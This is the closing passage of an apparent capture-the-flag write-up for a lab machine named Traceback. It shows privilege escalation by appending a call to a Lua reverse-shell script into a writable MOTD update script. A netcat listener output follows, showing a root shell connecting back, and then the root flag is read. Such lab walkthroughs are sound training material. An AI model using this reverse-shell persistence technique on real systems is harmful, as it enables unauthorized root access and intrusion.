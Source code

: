 We can modify them! We can reuse the same lua script that we used before to get
a reverse shell as root by adding it at the end of `00-header`:
```
sysadmin@traceback:~$ echo '/home/sysadmin/luvit /tmp/rev.lua' >> /etc/update-motd.d/00-header
```

And after logging in with ssh, we should get a connection:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:41164.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

And lets get the flag:
```
# wc -c /root/root.txt
33 /root/root.txt
```

Thanks for reading!
